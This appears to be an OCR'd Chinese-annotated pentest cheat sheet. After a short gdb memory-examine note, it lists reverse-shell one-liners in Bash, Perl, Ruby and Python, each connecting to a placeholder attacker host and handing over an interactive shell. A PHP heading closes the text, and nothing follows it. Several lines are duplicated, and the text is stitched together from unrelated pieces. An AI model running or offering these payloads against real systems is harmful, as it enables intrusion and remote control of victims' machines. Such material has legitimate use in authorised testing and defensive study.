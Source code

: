 # 显示特定内存地址的值
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
BASH 反弹 Shell

bash -i >& /dev/tcp/X.X.X.X/443 0>&1

exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444

cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done

/bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
PERL 反弹 Shell

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Win 平台
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
RUBY 反弹 Shell

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Win 平台
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
PYTHON 反弹 Shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
PHP 反弹 Shell
